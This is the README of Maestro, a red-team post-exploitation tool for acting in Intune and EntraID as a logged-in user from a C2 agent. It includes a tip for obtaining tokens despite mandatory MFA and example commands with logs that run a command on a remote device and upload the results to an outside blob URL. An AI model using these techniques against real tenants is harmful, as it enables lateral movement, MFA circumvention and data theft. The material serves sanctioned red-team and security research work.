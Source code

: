 <p align="center">
    <img src="https://img.shields.io/endpoint?url=https%3A%2F%2Fraw.githubusercontent.com%2Fspecterops%2F.github%2Fmain%2Fconfig%2Fshield.json&style=flat"
        alt="Sponsored by SpecterOps"/></a>
    <a href="https://twitter.com/_Mayyhem">
        <img src="https://img.shields.io/twitter/follow/_Mayyhem?style=social"
        alt="@_Mayyhem on Twitter"/></a>
</p>

---

# Maestro
Maestro is a post-exploitation tool designed to interact with Intune/EntraID from a C2 agent on a user's workstation without requiring knowledge of the user's password or Azure authentication flows, token manipulation, and web-based administration console. Maestro makes interacting with Intune and EntraID (and potentially other Azure services) from C2 much easier, as the operator does not need to obtain the user's cleartext password, extract primary refresh token (PRT) cookies from the system, run additional tools or a browser session over a SOCKS proxy, or deal with Azure authentication flows, tokens, or conditional access policies in order to execute actions in Azure on behalf of the logged-in user.

Maestro is essentially a wrapper for local PRT cookie requests and calls to the Microsoft Graph API with a lot of quality-of-life features added for red teamers. Maestro enables attack paths between on-prem and Azure. For example, by running Maestro on an Intune admin's machine, you can execute PowerShell scripts on any enrolled device without ever knowing the admin's credentials, even if MFA, device compliance, and a hybrid-joined device are required by conditional access policies.

Maestro's lateral movement functions were inspired by [Death from Above: Lateral Movement from Azure to On-Prem AD](https://posts.specterops.io/death-from-above-lateral-movement-from-azure-to-on-prem-ad-d18cb3959d4d) by Andy Robbins ([@_wald0](https://x.com/_wald0)). 

You can read more in this introductory blog post for Maestro: https://posts.specterops.io/maestro-9ed71d38d546

# Features
- Real-time PowerShell script execution (via Proactive Remediations)
- Application execution
- Real-time Device Query execution
- Force device check-in and sync
- Intune and Entra object enumeration
- Local database to store credentials and query results

# Notes
There is a compiled release in this repository using the `ReleasePlusMSAL` build configuration. Note that this configuration merges the MSAL dependencies into the .exe but increases the size of the resulting binary significantly. If you are not planning to use the `-m 2` method of requesting access tokens (SharpGetEntraToken via MSAL), you can compile a `Release` build and the size will be significantly reduced.

As of February 2025, Microsoft is rolling out mandatory MFA enforcement for authentication to Azure Portal and its extensions. The default access token request method using auth code flow will likely fail in this case, but using SharpGetEntraToken/MSAL (`-m 2` option) and specifying a client ID that does not require MFA like Azure Powershell (`1950a258-227b-4e31-a9cf-717495945fc2`) should still work. 

# Syntax
`Maestro.exe <command> [subcommand] [options]`

All commands and subcommands have a help page that is generated using a custom command line parser to keep the size of the binary to a minimum. Help pages can be accessed by entering any Maestro command followed by `-h` or `--help`.

Please refer to the output of the `--help` option for each command for the most up-to-date usage information.

Examples can be found at the bottom of this file.

# vNext
- Local Endpoint Privilege Management (EPM) enumeration

# Blogs/Talks
- [DEF CON 32 Demo Labs slides](https://docs.google.com/presentation/d/1TGl-ASNo-1jXMOha9yd1CdPI-zCMt2UP/edit?usp=sharing&ouid=114582824289521319309&rtpof=true&sd=true)

# Development
For debugging, I share a directory on an Intune-enrolled machine that is accessible from my host running Visual Studio, execute the Visual Studio Remote Debugger, configure a post-build job to copy the solution files to the share, and configure Visual Studio to remote debug on the enrolled system.

# Supporters
The time I'm able to spend researching, developing, and improving Maestro would not be possible without [SpecterOps's](https://www.specterops.io/) sponsorship of the project as part of their commitment to transparency and support for open-source development. I'm immensely grateful for their guidance and support.

# Contributions
Some Maestro features were inspired by or built based on the work of others, including:
- [RequestAADRefreshToken](https://github.com/leechristensen/RequestAADRefreshToken), by Lee Chagolla-Christensen ([@tifkin_](https://x.com/tifkin_))
- [ROADtoken](https://github.com/dirkjanm/ROADtoken), by Dirk-jan Mollema ([@_dirkjan](https://x.com/_dirkjan))
- [SharpGetEntraToken](https://github.com/hotnops/SharpGetEntraToken), by Daniel Heinsen ([@hotnops](https://x.com/hotnops))

If you're interested in collaborating, please hit me up on Twitter ([@_Mayyhem](https://twitter.com/_Mayyhem)) or in the [BloodHoundGang Slack](http://ghst.ly/BHSlack)!

# Examples
Get an access token for MS Graph using MSAL and the Azure PowerShell client ID (not yet prevented my mandatory MFA):
```
.\Maestro.exe get access-token -m 2 -t mayyhem.onmicrosoft.com -c 1950a258-227b-4e31-a9cf-717495945fc2 -s https://graph.microsoft.com/.default
2025-02-06 21:09:24.701 UTC - [INFO]    Execution started
2025-02-06 21:09:24.810 UTC - [INFO]    MSAL DLL loaded and ready for use.
2025-02-06 21:09:24.810 UTC - [INFO]    SharpGetEntraToken attempting to get an access token
2025-02-06 21:09:25.857 UTC - [INFO]    SharpGetEntraToken got an access token:
eyJ0...tDOg
2025-02-06 21:09:25.982 UTC - [INFO]    Completed execution in 00:00:01.3203797
```

Execute `dsregcmd.exe` on the Intune device with ID `e537180b-6d04-427e-bf93-dbde818400eb`, uploading results to the Azure Storage Blob Container SAS URL with a shared access token:
```
.\Maestro.exe exec intune upload -i e537180b-6d04-427e-bf93-dbde818400eb -n MyPolicy --url 'https://maestro2go.blob.core.windows.net/uploads?st=2025-01-14T20:19:57Z&se=2025-01-15T04:19:57Z&si=All&sv=2022-11-02&sr=c&sig=QYri...ZkpA%3D' --commands "%windir%\system32\dsregcmd.exe"
...
2025-01-14 20:20:28.251 UTC - [INFO]    Creating new device assignment filter with displayName: d004a709-aae6-4fbf-91cd-48f227272c97
2025-01-14 20:20:28.251 UTC - [INFO]    Requesting devices from Intune
2025-01-14 20:20:28.267 UTC - [INFO]    Requesting IntuneDevices from Microsoft Graph
2025-01-14 20:20:28.783 UTC - [INFO]    Found 1 IntuneDevice matching query in Microsoft Graph
2025-01-14 20:20:29.017 UTC - [INFO]    Found 1 devices in filtered results
2025-01-14 20:20:29.361 UTC - [INFO]    Obtained filter ID: 6fdc043b-4c3a-4f77-b9a3-0d65d9300e64
2025-01-14 20:20:29.379 UTC - [INFO]    Creating custom config policy for device: e537180b-6d04-427e-bf93-dbde818400eb
2025-01-14 20:20:29.649 UTC - [INFO]    Obtained policy ID: fbca5c35-5282-4ec7-87de-a2d16a743079
2025-01-14 20:20:29.680 UTC - [INFO]    Assigning policy fbca5c35-5282-4ec7-87de-a2d16a743079 with filter 6fdc043b-4c3a-4f77-b9a3-0d65d9300e64
2025-01-14 20:20:29.983 UTC - [INFO]    Successfully assigned policy with filter
2025-01-14 20:20:29.983 UTC - [INFO]    Successfully created and assigned diagnostic logs policy with request ID 651d2244-4ad7-4efe-bb5e-d017b0c27750
2025-01-14 20:20:29.999 UTC - [INFO]    Not syncing automatically, execute the following to force device sync:

    .\Maestro.exe exec intune sync -i e537180b-6d04-427e-bf93-dbde818400eb

Clean up after execution:
    .\Maestro.exe delete intune policy -i fbca5c35-5282-4ec7-87de-a2d16a743079
    .\Maestro.exe delete intune filter -i 6fdc043b-4c3a-4f77-b9a3-0d65d9300e64

2025-01-14 20:20:29.999 UTC - [INFO]    Completed execution in 00:00:04.8572902
```
